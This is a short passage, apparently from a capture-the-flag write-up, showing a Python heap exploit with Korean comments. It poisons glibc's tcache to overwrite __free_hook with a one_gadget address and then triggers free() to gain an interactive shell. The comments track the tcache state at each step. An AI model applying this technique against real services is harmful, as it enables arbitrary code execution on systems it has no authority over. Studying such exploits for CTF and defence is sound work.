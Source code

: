 ```py
free_hook = libc_base + libc.symbols['__free_hook']

# og = libc_base + 0x4f3ce
# og = libc_base + 0x4f3d5
og = libc_base + 0x4f432
# og = libc_base + 0x10a41c


# 여기서 tcache[0x40] 을 다시 쓰면 _IO_2_1_stdout_을 가져오는데 이 주소의 값을 바꾸면 안되므로 다른 tcache 엔트리를 써야함

# tcache[0x50] : empty
# chunk : first(1)
allocate(0x40, b'first')


# tcahce[0x50] : first(1)
# chunk : first(1)
free()


# tcache[0x50] : first(1) -> free_hook
# chunk : first(1)
edit(p64(free_hook))


# tcache[0x50] : free_hook
# chunk : first(1)
allocate(0x40, b'a')


# tcache[0x50] : empty
# chunk : free_hook
allocate(0x40, p64(og))  # free_hook이 저장된 주소에 og가 저장되어 free_hook -> og를 가리키게 됨


# Exploit
free()
p.interactive()
```

{% endraw %}